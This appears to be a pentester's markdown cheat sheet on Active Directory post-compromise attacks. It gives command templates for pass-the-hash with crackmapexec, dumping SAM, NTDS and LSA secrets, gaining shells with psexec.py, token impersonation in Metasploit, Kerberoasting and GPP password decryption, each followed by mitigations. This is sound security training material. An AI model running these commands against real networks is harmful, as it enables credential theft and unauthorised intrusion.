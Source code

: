# Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\\\" to escape backslash i.e. domain\\user for token name domain\user
- `rev2self` to revert to self after impersonation


#### Token impersonation mitigation
- Limit user/group token creation permissions
- account tiering and isolation
	- regular user account for day to day, admin account for specific needs on specific machines
		- i.e domain admin should only log in to domain controller and not local machines
- local admin restriction


---
## Kerberoasting
---

[kerberoasting info](https://medium.com/mitigation@Shorty420/kerberoasting-9108477279cc)

### attack steps
- Get SPNs, Dump Hash
	- `GetUserSPNs.py <domain/username:password> -dc-ip <ip of DC> -request`
- attempt crach hash with hashcat
	- `hashcat -m 13100 kerberoasthash.txt rockyou.txt`

#### Kerberoasting Mitigations
- strong passwords
- least privilege
	- don't make service accounts domain admins, and dont' give service accounts weak passwords

---
## GPP Attacks
---

locate cpassword in Groups.xml
use gpp-decrypt to decrypt cpassword. 
try to gain shell with creds



